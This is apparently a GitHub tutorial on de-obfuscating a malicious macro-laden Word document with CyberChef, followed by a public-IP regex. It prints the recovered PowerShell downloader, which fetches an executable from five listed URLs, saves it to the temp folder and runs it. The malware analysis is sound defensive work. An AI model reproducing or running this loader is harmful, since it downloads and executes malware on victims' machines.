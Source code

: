 ![logo](https://raw.githubusercontent.com/adam-p/markdown-here/master/src/common/images/icon48.png)
#### In this Tutrail i will show you how to Deofcated A milieous VBS enabded in Doc File 

Start : https://www.hybrid-analysis.com/sample/9a43186e72bde764614b092b55d4dfba00f528c5f0d45e6ccb56dcee8763a845?environmentId=100 

![1](https://user-images.githubusercontent.com/29158503/60865490-d0fdcc80-a22e-11e9-8114-827ce5233897.png)



#### After Downloading the sample let go to Cyberchef to analyze the Malicious cmd.exe command present on Hyperd analysis


![2](https://user-images.githubusercontent.com/29158503/60865489-d0fdcc80-a22e-11e9-8a97-e358694714ee.png)
                                               


#### Now we need to  de-obfuscate the command using cyberchef as follow : 
+ Using replace| find Function to clean the code from (^) 

+ We notice there are SET for a verivble called (9ojB) we select that veribale and see we can find ! 

+ By the end of line we found "For /l  %3  IN  (+1640 ,  -3 ,+2 )", that mean the attcker telling the script to start from index 1640 (Whic is the last characker in the code )  and skkiping  two ckarakter all the way up.

+ To make this readbale lets revrese the code (Despaiye the fact it start from down top up) by using revrese function in Cybershef 

+ Now we need to select first Character and skipping two Characters by using regulare experation "(.).." and also select "List Capture Gruops" 

+ Great, All you need to do now is adding Synatx highliter to make the output more clear screen shot below 

![3](https://user-images.githubusercontent.com/29158503/60870145-f2fc4c80-a238-11e9-9774-79f7cace6eff.PNG)
                                                



```javascript
powershell $BYi='rfd';$iQF='http://mahimamedia.com/YxdW87t@http://mandujano.net/NWJ6@http://www.creativeagency.biz/Sa0BVm@http://www.brgsabz.com/sq@http://biogas-bulgaria.efarmbg.com/fiDaiHg'.Split('@');$RdW=([System.IO.Path]::GetTempPath()+'\zUw.exe');$uIY =New-Object -com 'msxml2.xmlhttp';$svp = New-Object -com 'adodb.stream';foreach($PXv in $iQF){try{$uIY.open('GET',$PXv,0);$uIY.send();If ($uIY.Status -eq 200) {$svp.open();$svp.type = 1;$svp.write($uIY.responseBody);$svp.savetofile($RdW);Start-Process $RdW;break}}catch{}}      
```


# Note(Regx):

1. Public Ip 
+ ^([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))(?<!127)(?<!^10)(?<!^0)\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!192\.168)(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!\.255$)$
